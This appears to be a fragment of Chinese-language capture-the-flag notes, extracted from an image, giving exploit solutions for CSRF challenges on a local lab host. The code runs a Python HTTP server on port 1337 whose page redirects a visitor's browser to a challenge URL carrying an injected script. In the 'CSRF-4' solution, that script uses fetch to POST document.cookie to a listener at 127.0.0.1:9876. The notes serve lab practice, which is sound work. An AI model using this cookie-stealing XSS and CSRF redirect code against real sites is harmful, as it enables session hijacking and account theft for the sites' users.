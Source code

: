 ```python
            payload = f'http://challenge.localhost:80/ephemeral?msg={encoded_msg}'

            # 生成 HTML 页面并插入跳转脚本
            self.wfile.write(f"""
                <html>
                  <body>
                    <script>
                        // 通过 JavaScript 强制跳转到包含恶意 payload 的 URL
                        window.location.href = "{payload}";
                    </script>
                  </body>
                </html>
            """.encode())

# 启动 HTTP 服务器
server = HTTPServer(("0.0.0.0", 1337), CSRFHandler)
print("CSRF attack server running at http://hacker.localhost:1337/")
server.serve_forever()
```

诱导实现同源跳转，然后再注入xss进行alert。



# 26-CSRF-4

exp

```py
from http.server import SimpleHTTPRequestHandler, HTTPServer
import urllib.parse

class CSRFHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/":
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()

            # 恶意消息
            msg = '<script>fetch("http://127.0.0.1:9876",{method:"POST",body:document.cookie,headers:{"Content-Type":"application/x-www-form-urlencoded"}});</script>'

            # 对消息进行 URL 编码
            encoded_msg = urllib.parse.quote(msg)

            # 构造恶意 URL
            payload = f'http://challenge.localhost:80/ephemeral?msg={encoded_msg}'

            # 生成 HTML 页面并插入跳转脚本
            self.wfile.write(f"""
                <html>
                  <body>
                    <script>
                        // 通过 JavaScript 强制跳转到包含恶意 payload 的 URL
                        window.location.href = "{payload}";
                    </script>
                  </body>
                </html>
            """.encode())

# 启动 HTTP 服务器
server = HTTPServer(("0.0.0.0", 1337), CSRFHandler)
print("CSRF attack server running at http://hacker.localhost:1337/")
```